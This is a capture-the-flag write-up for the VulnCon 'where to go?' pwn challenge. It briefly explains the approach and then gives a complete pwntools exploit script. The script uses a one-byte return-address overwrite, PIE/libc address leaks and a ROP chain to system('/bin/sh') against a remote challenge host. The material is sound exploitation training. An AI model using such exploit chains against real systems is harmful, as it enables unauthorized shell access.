


## VulnCon CTF: where to go? [pwn]


#### There was a secret function in the challenge where it could be used to leak an address to defeat pie and aslr. What we needed to do was to overwrite only one byte of the saved return address to jump into the secret function. After which, we can proceed to leak libc addresses and execute a ROPchain to system. 

```python
from pwn import *

#:
#p = process('./where_to_go')
breakpoints = ['brva 0x7da', 'brva 0x873', 'brva 0x898']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
p = remote("35.232.11.215", 49155)

print(p.recvuntil('Hello!\n'))
p.send(cyclic(40) + '\x99') #: ONE-BYTE OVERWRITE
main_leak = u64(p.recvuntil('Hello!\n')[:6].ljust(8, '\x00'))
func_base = main_leak & ~0xfff
print(hex(main_leak))
print(hex(func_base))

pop_rdi = 0x0000000000000943
pop_rsi_r15 = 0x0000000000000941
exploit = cyclic(40)
exploit += p64(func_base + pop_rdi)
exploit += p64(0x1)
exploit += p64(func_base + pop_rsi_r15)
exploit += p64(func_base + 0xfd0 + 0x200000) #: setvbuf@GOT
exploit += p64(0x0)
exploit += p64(func_base + 0x8ca) #: write(1, setvbuf@GOT, whatever_is_in_rdx)
exploit += p64(main_leak) #: return to main
p.sendline(exploit)

setvbuf_leak = u64(p.recv()[:6].ljust(8, '\x00'))
print(hex(setvbuf_leak))

#:
libc = ELF('./libc.so.6', checksec = False)
libc_base = setvbuf_leak - libc.symbols['setvbuf']
print(hex(libc_base))

exploit = cyclic(40)
exploit += p64(func_base + 0x0000000000000288)
exploit += p64(func_base + pop_rdi)
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])
p.sendline(exploit)
p.interactive()
```

